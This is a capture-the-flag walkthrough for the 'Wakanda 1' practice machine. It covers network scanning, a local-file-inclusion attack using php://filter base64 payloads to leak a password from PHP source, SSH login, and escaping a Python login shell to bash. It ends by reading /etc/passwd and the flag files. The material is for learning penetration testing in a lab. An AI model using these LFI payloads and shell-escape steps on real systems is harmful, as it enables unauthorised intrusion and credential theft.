 # Wakanda 1


##[step 1] Finding Ip Address
> nmap [nmap -sT 192.168.0.0/24]
> netdiscover -r 192.168.0.0/24
> arp-scan -l

## [step 2] Finding Port 
> nmap [nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.56.101]
  nikto [nikto -h 192.168.56.101]

## [step 3] Directory
> directory buster [dirb  192.168.156.101]
  nikto [nikto -h 192.168.56.101]

## [step 4] web pages analysis and decoding
> curl 
  curl -I 192.168.56.101/fr.php
  curl -I 192.168.56.101/index.php
### As there was this in line in source page :  <!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
#### The commented HTML seems to suggest LFI vulnerability is present with the lang parameter.
#### So try this: 
> [http://192.168.56.101/index.php] this is homepage.So we'll try  LFI/RFI attack,using Wrappers.
Wrapper php://filter
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

> After [http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index]
there are  encoded words.

> curl http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index | head -n 1 | base64 -d
We'll get php code in which there is password.

## [Step 5] ssh
> try login through ssh
> ssh -p3333 mamadou@192.168.56.101

### we'll get a python shell after login

``` 
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

> try to get bash shell by python command : [>>> import os; os.system("/bin/bash")
]
```
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ cat flag.txt
cat: flag.txt: No such file or directory
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ ls -la
total 24
drwxr-xr-x 2 mamadou mamadou 4096 Aug  5 02:24 .
drwxr-xr-x 4 root    root    4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root    root       9 Aug  5 02:24 .bash_history -> /dev/null
-rw-r--r-- 1 mamadou mamadou  220 Aug  1 13:15 .bash_logout
-rw-r--r-- 1 mamadou mamadou 3515 Aug  1 13:15 .bashrc
-rw-r--r-- 1 mamadou mamadou   41 Aug  1 15:52 flag1.txt
-rw-r--r-- 1 mamadou mamadou  675 Aug  1 13:15 .profile
mamadou@Wakanda1:~$ pwd
/home/mamadou
```
```
mamadou@Wakanda1:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mamadou:x:1000:1000:Mamadou,,,,Developper:/home/mamadou:/usr/bin/python
devops:x:1001:1002:,,,:/home/devops:/bin/bash
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ locate flag2.txt
/home/devops/flag2.txt
mamadou@Wakanda1:~$ cat /home/devops/flag2.txt
cat: /home/devops/flag2.txt: Permission denied
mamadou@Wakanda1:~$ ls -al /home/devops/
total 24
drwxr-xr-x 2 devops developer 4096 Aug  5 02:25 .
drwxr-xr-x 4 root   root      4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root   root         9 Aug  5 02:25 .bash_history -> /dev/null
-rw-r--r-- 1 devops developer  220 Aug  1 15:23 .bash_logout
-rw-r--r-- 1 devops developer 3515 Aug  1 15:23 .bashrc
-rw-r----- 1 devops developer   42 Aug  1 15:57 flag2.txt
-rw-r--r-- 1 devops developer  675 Aug  1 15:23 .profile
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$ 
```




